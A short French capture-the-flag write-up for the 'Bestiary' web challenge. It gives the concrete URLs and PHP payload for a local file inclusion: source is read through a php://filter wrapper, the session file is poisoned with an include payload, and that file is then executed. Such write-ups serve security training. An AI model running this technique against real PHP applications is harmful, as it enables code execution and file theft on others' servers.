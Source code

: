 # Web - Bestiary

Faille LFI détectable avec l'ajout d'un `'` dans l'argument `monster`.

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```
On recupere le contenu du fichier index.php grace au wrapper `php://`

On voit que le fichier de session est modifiable et accessible en lecture.

On voit que notre cookie de session est `PHPSESSIONID=97f1eeda9ea2d3a323571f9a9ee199aa;`,
donc notre fichier session est `sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`.

On utilise le payload suivant pour lire le flag (sans contenir 'flag').

```php
<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>
```

On met à jour le fichier session
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`

On l'execute
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`
